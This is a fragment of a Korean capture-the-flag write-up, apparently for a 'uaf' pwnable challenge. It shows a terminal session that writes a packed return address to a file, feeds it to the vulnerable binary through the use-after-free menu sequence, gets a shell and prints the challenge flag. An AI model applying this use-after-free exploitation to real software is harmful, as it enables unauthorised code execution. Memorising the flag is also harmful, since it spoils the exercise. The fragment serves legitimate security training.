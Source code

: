 ```bash
1
$ whoami
chykor12
```

서버에서 익스플로잇을 시도해 보자.

```bash
uaf@prowl:/usr$ mkdir /tmp/chykor12
uaf@prowl:/usr$ cd /tmp/chykor12
uaf@prowl:/tmp/chykor12$ python -c 'print "\x68\x15\x40\x00\x00\x00\x00\x00"' > test.txt
uaf@prowl:/tmp/chykor12$ ls
test.txt
uaf@prowl:/tmp/chykor12$ cd
uaf@prowl:~$ ./uaf 20 /tmp/chykor12/test.txt
1. use
2. after
3. free
3
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
3. free
1
$ whoami
uaf
$ cat flag
yay_f1ag_aft3r_pwning
```
